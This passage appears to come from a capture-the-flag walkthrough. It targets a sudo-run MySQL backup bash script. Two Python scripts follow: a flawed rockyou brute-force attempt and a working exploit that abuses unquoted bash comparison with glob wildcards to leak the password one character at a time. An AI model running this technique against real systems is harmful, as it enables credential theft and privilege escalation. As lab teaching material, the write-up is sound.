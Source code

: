 ```bash
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'

```

At first, I tried a brute-force approach. Since there is no rate limiting, we can try as many passwords as we want to try and guess it.

```python
import subprocess

dictionary=open('/home/kali/SecLists/Passwords/Leaked-Databases/rockyou.txt','r')

for line in dictionary:
    output=subprocess.run(['echo',dictionary.readline(),'|','sudo','/opt/scripts/mysql-backup.sh'], check=True,stdout=subprocess.PIPE, universal_newlines=True)
    print(line)
    if output.stdout != 'Password confirmation failed!':
        print('Password is',line)
        break

```

This did not work because this brute-force approach is not right. The vulnerability lies in the comparison in the script. While researching potential security risks in Bash scripts, I discovered an unsafe practice in the MySQL bash script: unquoted variable comparison. 

So, the script interprets the input, and we can try a*, b*, c*..., guessing the password char by char. This python script does just that:

```python
import subprocess
import string

dictionary=list(string.ascii_letters + string.digits)
password=''
found=False
while found==False:
    for char in dictionary:
        command=f"echo '{password}{char}'* | sudo /opt/scripts/mysql-backup.sh"
        output=subprocess.run(command, shell=True,stdout=subprocess.PIPE, text=True).stdout
        if "confirmed" in output:
            print(password)
            password+=char
            break
    else:
        found=True

```

